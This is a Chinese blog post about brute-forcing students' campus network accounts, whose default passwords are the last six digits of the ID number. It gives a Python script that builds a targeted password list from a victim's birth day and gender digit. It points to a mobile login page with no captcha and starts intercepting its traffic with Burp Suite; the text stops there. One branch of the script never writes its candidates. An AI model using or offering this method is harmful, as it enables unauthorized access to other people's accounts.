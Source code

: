 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      My First Post               # 标题 
subtitle:   记一次对校园网账号的爆破 #副标题
date:       2019-05-18              # 时间
author:     Von                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Practice
    - Web
---
```

前言
---
  上个星期开始就试图对校园网账号进行爆破。当出现验证码后试图用tesserocr对其进行识别继续爆破。然而发现简单的识别识别不出来。本来tesserocr支持
机器学习，然而由于我的菜一直没搞懂，工程本来就此停滞。但是后来在手机上查询校园网流量余额时偶然发现查询流量的网站在移动端居然没有验证码验证。于
是想到可以对移动端进行抓包然后进行爆破。

准备工作
---
  由于校园账号的默认密码是身份证后六位。而身份证后六位的前两位是生日，倒数第二位是性别识别码。所以根据不同的人来生成不同的字典可以大大地提高
速度。由下我写了个python脚本可以根据不同的用户输入生成不同的字典。
```python
def Fun(birthday = '',gender = ''):
	File = 'DICT.txt'
	num = 0
	with open(File,'w') as f:
		if birthday :
			if gender :
				for i in range(0,100):
					STR1 = birthday.zfill(2) + str(i).zfill(2)
					if gender == 'Male':
						for j in range(1,10,2):
							STR2 = STR1 + str(j)
							for k in range(0,10):
								f.write(STR2 + str(k)+'\n')
								num += 1
							f.write(STR2 + 'X' +'\n')
							num += 1
					else:
						for j in range(0,10,2):
							STR2 = STR1 + str(j)
							for k in range(0,10):
								f.write(STR2 + str(k)+'\n')
								num += 1
							f.write(STR2 + 'X' +'\n')
							num += 1
			else :
				for i in range(0,1000):
					STR1 = birthday.zfill(2) + str(i).zfill(3)
					for j in range(0,10):
						STR2 = (STR1 + str(j) + '\n')
						num += 1
					f.write(STR1 + 'X' + '\n')
					num += 1
		else:
			if gender :
				for i in range(1,32):
					STR1 = str(i).zfill(2)
					for j in range(0,100):
						STR2 = STR1 + str(j).zfill(2)
						if gender == 'Male':
							for k in range(1,10,2):
								STR3 = STR2 + str(k)
								for l in range(0,10):
									f.write(STR3 + str(l) + '\n')
									num += 1
								f.write(STR3 + 'X' + '\n')
								num += 1
						else:
							for k in range(2,10,2):
								STR3 = STR2 + str(k)
								for l in range(0,10):
									f.write(STR3 + str(l) + '\n')
									num += 1
								f.write(STR3 + 'X' + '\n')
								num += 1
							
			else:
				for i in range(1,32):
					STR1 = str(i).zfill(2)
					for j in range(0,1000):
						STR2 = STR1 + str(j).zfill(3)
						for k in range(0,10):
							f.write(STR2 + str(k) + '\n')
							num += 1
						f.write(STR2 + 'X' + '\n')
						num += 1
	print('Dictionary generation was successful with a total number of '+str(num))
					
					
day = input('Please input the day: ')
gender = input('Please input the gender(Male or Female): ')
Fun(day,gender)	
```
实战爆破
---
  首先我们使用burpsuite对移动端进行抓包。关于对移动端进行抓包这里不做赘述（原理就是在同个局域网中让手机挂上PC端的代理）。然后让手机访问查询
校园网流量的网站[10.255.44.1:8800](10.255.44.1:8800).抓包所得结果如下:
!()[VonLYC.github.io/img/BLOG1.png]




